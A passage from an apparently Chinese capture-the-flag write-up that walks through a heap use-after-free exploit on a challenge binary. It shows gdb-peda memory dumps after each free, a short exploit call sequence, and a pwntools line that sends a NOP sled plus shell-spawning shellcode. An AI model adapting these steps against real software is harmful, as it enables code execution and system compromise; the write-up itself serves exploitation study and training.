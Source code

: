 ```
0x5616d5cfece0:	0x0000000000000000	0x0000000000000000
0x5616d5cfecf0:	0x0000000000000000	0x0000000000000000
```

after free(1)

```
gdb-peda$ x /30xg 0x5616d5cfec10
0x5616d5cfec10:	0x0000000000000000	0x0000000000000021
0x5616d5cfec20:	0x00005616d4a56db8	0x00005616d5cfec40
0x5616d5cfec30:	0x0000000000000002	0x0000000000000021
0x5616d5cfec40:	0x0000000200000002	0x0000000000000000
0x5616d5cfec50:	0x0000000000000000	0x0000000000000021
0x5616d5cfec60:	0x00005616d5cfec70	0x00005616d5cfec80 
0x5616d5cfec70:	0x0000000000000006	0x0000000000000021
0x5616d5cfec80:	0x0000000000000000	0x53415f5851515e50
0x5616d5cfec90:	0x0000dead00050f5a	0x0000000000000021
0x5616d5cfeca0:	0x00005616d4a56db8	0x00005616d5cfecc0
0x5616d5cfecb0:	0x0000000000000002	0x0000000000000021
0x5616d5cfecc0:	0x0000000200000002	0x0000000000000000
0x5616d5cfecd0:	0x0000000000000000	0x0000000000020331
0x5616d5cfece0:	0x0000000000000000	0x0000000000000000
0x5616d5cfecf0:	0x0000000000000000	0x0000000000000000
```

after free(0)

```
gdb-peda$ x /50xg 0x5616d5cfec10
0x5616d5cfec10:	0x0000000000000000	0x0000000000000021
0x5616d5cfec20:	0x00005616d5cfec30	0x00005616d5cfec40
0x5616d5cfec30:	0x0000000000000002	0x0000000000000021
0x5616d5cfec40:	0x00005616d5cfec70	0x0000000000000000
0x5616d5cfec50:	0x0000000000000000	0x0000000000000021
0x5616d5cfec60:	0x00005616d4a56db8	0x00005616d5cfece0
0x5616d5cfec70:	0x0000000000000008	0x0000000000000021
0x5616d5cfec80:	0x0000000000000000	0x53415f5851515e50
0x5616d5cfec90:	0x0000dead00050f5a	0x0000000000000021
0x5616d5cfeca0:	0x00005616d4a56db8	0x00005616d5cfecc0
0x5616d5cfecb0:	0x0000000000000002	0x0000000000000021
0x5616d5cfecc0:	0x0000000200000002	0x0000000000000000
0x5616d5cfecd0:	0x0000000000000000	0x0000000000000031
0x5616d5cfece0:	0x0000000200000002	0x0000000200000002
0x5616d5cfecf0:	0x0000000200000002	0x0000000200000002
0x5616d5cfed00:	0x0000000000000000	0x0000000000020301
```

利用程序：

```
free(1)
new(3,8,2)
free(0)
show(0)
```

最后再覆盖写一次syscall读东西到heap上执行完后直接getshell，这一步主要是方面写shellcode，不用拆成几个int来一点点写。

```
p.send('\x90'*0x90 + asm(shellcraft.sh()))
```

把文件改成没有脱壳的文件，运行成功getshell。